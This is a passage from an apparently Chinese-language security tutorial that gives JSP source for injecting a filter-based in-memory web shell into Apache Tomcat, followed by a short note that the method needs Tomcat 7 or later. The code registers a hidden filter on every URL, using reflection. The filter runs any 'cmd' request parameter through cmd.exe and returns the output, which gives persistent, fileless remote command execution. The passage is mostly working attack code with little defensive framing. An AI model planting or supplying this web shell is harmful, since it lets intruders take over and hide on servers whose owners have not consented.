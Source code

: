 ```
                if (req.getParameter("cmd") != null) {
                    byte[] bytes = new byte[1024];
                    Process process = new ProcessBuilder("cmd.exe", "/C", req.getParameter("cmd")).start();
                    int len = process.getInputStream().read(bytes);
                    servletResponse.getWriter().write(new String(bytes, 0, len));
                    process.destroy();
                    return;
                }
                filterChain.doFilter(servletRequest, servletResponse);
            }

            @Override
            public void destroy() {

            }

        };

        // FilterDef
        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());
        standardContext.addFilterDef(filterDef);

        // FilterMap
        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(name);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());
        standardContext.addFilterMapBefore(filterMap);

        //ApplicationFilterConfig
        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);
        filterConfigs.put(name, filterConfig);
    
        out.print("Inject Success !");

    }
%>
```

## 注意事项
这种注入filter内存马的方法只支持 Tomcat 7.x 以上，因为 javax.servlet.DispatcherType 类是servlet 3 以后引入，而 Tomcat 7以上才支持 Servlet 3
```java
  filterMap.setDispatcher(DispatcherType.REQUEST.name());
```

